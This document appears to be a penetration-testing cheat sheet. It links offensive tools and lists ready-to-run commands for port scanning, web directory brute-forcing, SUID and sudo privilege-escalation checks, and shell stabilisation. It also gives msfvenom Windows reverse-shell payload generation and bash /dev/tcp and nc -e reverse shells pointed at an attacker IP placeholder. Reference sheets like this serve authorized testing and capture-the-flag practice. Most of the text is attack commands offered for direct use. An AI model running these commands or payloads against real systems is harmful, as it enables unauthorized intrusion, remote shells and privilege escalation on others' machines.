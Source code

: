 [GTFOBins](https://gtfobins.github.io/), [LinSmartEnum](https://github.com/diego-treitos/linux-smart-enumeration), [LinEnum](https://github.com/rebootuser/LinEnum), [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), [LinuxExploitSuggester](https://github.com/mzet-/linux-exploit-suggester), [suider](https://github.com/etc5had0w/suider)

[Sherlock](https://github.com/rasta-mouse/Sherlock), [impacket](https://github.com/SecureAuthCorp/impacket), [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

----
## scan ports
```bash
# nmap scan allports, service/version info, script scan
nmap -T4 -sC -sV -p- --min-rate=1000 -oN <FILE> <IP> -Pn

# udp scan top 1000 ports
nmap -sU -sC -sV -vvv <IP> -oN nmap/udp-ports

# masscan all tcp ports
massscan -p1-65535 <IP>
```

## scan local network
```bash
nmap -sn 192.168.1.0/24
arp-scan 192.168.1.0/24
```

## find files
```bash
find / -iname <file>.txt 2>/dev/null # linux
dir <file>.txt /S /B # windows cmd
where /r C:\ <file>.txt
Get-ChildItem -Path C:\ -Filter <file>.txt -Recurse -ErrorAction SilentlyContinue -Force # windows powershell
```

## file/directory scan

```bash
gobuster dir -u <IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html --timeout 50s -t 170 -f -o gobsuter

# gobsuter scan php files
gobuster dir -u <IP> -w /SecLists/Discovery/Web-Content/raft-medium-words.txt -t 30 -x php

# gobuster scan directory
gobuster dir -u <IP> -w ~/usr/share/wordlists/dirb/big.txt -t 30
gobuster dir -u <IP> -w ~/SecLists/Discovery/Web-Content/raft-medium-words.txt -t 30
gobuster dir -u <IP> -w ~/SecLists/Discovery/Web-Content/raft-medium-directories.txt --timeout 7s -t 50 -f

# dirsearch
dirsearch -u <IP> -w <wordlist>

# ffuf 
ffuf -u <IP>/FUZZ -w <wordlist>
```

----
## potential priv-esc
```bash
# list allowed sudo commands
sudo -l

# list files capabilities
getcap -r / 2>/dev/null

# find suid / sgid files
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
find / -type f -perm -4000 -exec ls -l {} \; 2> /dev/null
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls  -l {} \; 2> /dev/null
```

## windows msfvenom payloads
```bash
# windows reverse shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o payload.exe

# windows reverse shell uses exploit/multi/handler as listener
msfvenom -p windows/shell/reverse_tcp --platform=win --arch=x86 LHOST=<IP> LPORT=<PORT> -f exe -o payload.exe
```

## reverse shell
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1

/bin/bash -c '/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'

nc -e /bin/bash <IP> <PORT>
```
## services
```bash
SNMP
snmp-check <IP>
snmpwalk -v1 -c public <IP> 
```

## etc
```bash
# ssh with public_key
ssh <user>@<server> -i ~/.ssh/id_rsa

# tty shell
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo
fg
enter

# check shared objects 
strace <file> 2>&1

# if sudo su not allowed
sudo -s
sudo -i
sudo /bin/bash
sudo password

# metasploit migrate to diff process
migrate <process_id>
```
